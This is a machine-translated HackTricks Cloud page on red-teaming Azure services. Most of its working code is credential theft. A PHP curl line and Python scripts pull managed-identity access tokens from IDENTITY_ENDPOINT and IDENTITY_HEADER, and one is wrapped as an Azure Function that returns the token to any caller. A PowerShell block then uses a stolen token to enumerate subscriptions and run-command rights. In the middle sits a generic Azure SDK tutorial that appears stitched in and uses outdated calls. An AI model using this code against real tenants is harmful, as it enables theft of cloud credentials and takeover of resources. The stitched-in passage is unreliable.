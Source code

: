 # Az - Usluge

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Portali

Možete pronaći listu **Microsoft portala na** [**https://msportals.io/**](https://msportals.io/)

### Sirovi zahtevi

#### Azure API putem Powershell-a

Dobijte **access\_token** iz **IDENTITY\_HEADER** i **IDENTITY\_ENDPOINT**: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

Zatim upitajte Azure REST API da biste dobili **subscription ID** i više.
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Verzija Azure API-ja putem Pythona

Ova sekcija opisuje kako koristiti Azure API-je putem Pythona. 

Da biste koristili Azure API-je, prvo morate instalirati Azure SDK za Python. Možete to učiniti pomoću sljedeće naredbe:

```bash
pip install azure
```

Nakon instalacije SDK-a, možete koristiti Python skripte za pristupanje Azure uslugama putem API-ja. 

Primjer koda za pristupanje Azure usluzi za rad s virtualnim strojevima:

```python
from azure.mgmt.compute import ComputeManagementClient
from azure.common.credentials import ServicePrincipalCredentials

# Postavke za prijavu
subscription_id = 'YOUR_SUBSCRIPTION_ID'
tenant_id = 'YOUR_TENANT_ID'
client_id = 'YOUR_CLIENT_ID'
client_secret = 'YOUR_CLIENT_SECRET'

# Kreiranje objekta za prijavu
credentials = ServicePrincipalCredentials(
    client_id=client_id,
    secret=client_secret,
    tenant=tenant_id
)

# Kreiranje objekta za upravljanje virtualnim strojevima
compute_client = ComputeManagementClient(credentials, subscription_id)

# Primjer koda za dohvaćanje informacija o virtualnim strojevima
for vm in compute_client.virtual_machines.list_all():
    print(vm.name)
```

Ovaj primjer koristi `azure.mgmt.compute` modul za upravljanje virtualnim strojevima. 

Napomena: Prije izvršavanja ovog koda, zamijenite `YOUR_SUBSCRIPTION_ID`, `YOUR_TENANT_ID`, `YOUR_CLIENT_ID` i `YOUR_CLIENT_SECRET` sa stvarnim vrijednostima iz vašeg Azure računa.

Ovo je samo jedan primjer koda za pristupanje Azure uslugama putem Pythona. Azure API-ji pružaju mnoge druge mogućnosti za interakciju s Azure uslugama, pa se preporučuje da proučite dokumentaciju za određenu uslugu koju želite koristiti.
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
ili unutar Python funkcije:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## Lista usluga

* [**Azure AD**](../az-azuread/)
* [**Application Proxy**](az-application-proxy.md)
* [**Arm šablone / Implementacije**](az-arm-templates.md)
* [**Automation Account**](az-automation-account/)
* [**App Service & Function Apps**](az-azure-app-service.md)
* [**Blob Storage**](az-blob-storage.md)
* [**Intune**](../intune.md)
* [**Keyvault**](../keyvault.md)
* [**Virtualne mašine**](vms/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
